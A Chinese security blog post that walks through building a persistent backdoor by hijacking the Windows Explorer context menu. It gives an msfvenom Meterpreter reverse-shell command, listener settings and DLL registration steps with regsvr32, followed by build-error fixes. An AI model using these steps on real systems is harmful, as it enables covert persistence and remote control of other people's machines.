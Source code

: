 #  劫持资源管理器实现持久性后门

原创 3had0w  [ 潇湘信安 ](javascript:void\(0\);)

**潇湘信安** ![]()

微信号 xxxasec

功能介绍 一个不会编程、挖SRC、代码审计的安全爱好者，主要分享一些安全经验、渗透思路、奇淫技巧与知识总结。

____

___发表于_

收录于合集 #权限维持 4个

**声明：**
该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。  
---  
  
  

 **0x01 前言**

最近看到一篇有关《劫持Explorer.exe实现持久性》的文章，只要用户右键单击文件资源管理器中的文件或文件夹就会触发，简单记录下本地复现过程！  

  

 **0x02  复现过程**

CobaltStrike或Metasploit生成一个C格式shellcode，将shellcode中的"都替换为空，再用\r\n将其放在一行，配置好相关参数执行监听。  

  *   *   *   *   *   * 

    
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 EXITFUNC=thread -f c  
    set payload windows/x64/meterpreter/reverse_tcpset lhost 192.168.1.120set lport 443exploit

![]()  

VS打开该项目，在FileContextMenuExt.cpp第13行处插入我们处理好的shellcode，直接编译得到一个ContextMenuHijack.dll。

  

 **项目地址：**

  * 

    
    
     https://github.com/RistBS/ContextMenuHijack

![]()  

接着我们通过执行以下命令用regsvr32注册下这个dll文件，如果想卸载掉只需加个/u参数即可。

  

 **注册：**

  * 

    
    
     regsvr32 ContextMenuHijack.dll

 **卸载：**

  * 

    
    
     regsvr32 /u ContextMenuHijack.dll

![]()  

这时只要我们右键文件或文件夹就会触发上线，但这种方式极易造成Explorer.exe资源管理器奔溃，导致会话掉线，建议加个自动迁移进程参数。

  * 

    
    
    set AutoRunScript migrate -f

![]()![]()  

 **0x03 编译问题**

我的VS版本2017，但这个项目是2022编译的，所以编译时可能由于VS版本问题而出现下图报错：错误 MSB8020 无法找到 v143
的生成工具(平台工具集 =“v143”)。若要使用 v143 生成工具进行生成，请安装 v143 生成工具。或者，可以升级到当前 Visual Studio
工具，方式是通过选择“项目”菜单或右键单击该解决方案，然后选择“重定解决方案目标”![]()

  

 **解决方法：**

  *   *   *   *   * 

    
    
     选中项目 -> 右键属性 -> 将平台工具集选为VS2017（V141）；选中工程 -> 重定解决方案目标 -> 选择当前Windows SDK版本；打开项目根目录下.vcxproj后缀文件，将v143全替换为v141，保存；切换回Visual Studio，检测到文件修改，我们选择“全部重新加载”；再次选中工程 -> 重新生成解决方案 -> 已经编译成功，完美解决该问题。

![]()

  

 **参考链接：**

  *   * 

    
    
     https://pentestlab.blog/2023/03/13/persistence-context-menu/https://ristbs.github.io/2023/02/15/hijack-explorer-context-menu-for-persistence-and-fun.html

  

* * *

 **关 注 有 礼**

  
  
关注公众号回复“9527”可以领取一套HTB靶场文档和视频，“1208”个人常用高效爆破字典，“0221”2020年酒仙桥文章打包，“2191”潇湘信安文章打包，“1212”杀软对比源码+数据源，“0421”Windows提权工具包。![]()
还在等什么？赶紧点击下方名片关注学习吧！![]()

* * *

 **推 荐 阅 读**

  
  
  
[![]()](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247491360&idx=1&sn=e4c3d356b45d7fe821dc2b645f30a595&chksm=cfa6bb33f8d132259884026238db7b79f33da3f3fff2f90a87e4a447118a1be8c4e948031d8f&scene=21#wechat_redirect)[![]()](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)[![]()](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

* * *

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

